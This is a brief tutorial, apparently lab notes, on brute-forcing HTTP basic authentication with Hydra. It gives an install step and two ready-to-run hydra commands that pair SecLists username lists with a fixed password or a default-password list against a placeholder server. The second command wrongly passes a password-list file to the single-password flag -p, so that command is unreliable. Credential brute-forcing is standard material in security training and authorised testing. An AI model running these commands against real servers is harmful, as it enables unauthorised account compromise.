 # Brute Forcing using Hydra

In order to install it, type ``` sudo apt install hydra -y ``` or [download here](https://github.com/vanhauser-thc/thc-hydra)

For the purpose of attacking HTTP basic auth, type :
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p admin -u -f SERVER_IP -s SERVER_PORT http-get /

 ```
 or
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p /usr/share/SecLists/Passwords/Default-Credentials/default-passwords.txt -u -f SERVER_IP -s SERVER_PORT http-get /

 ```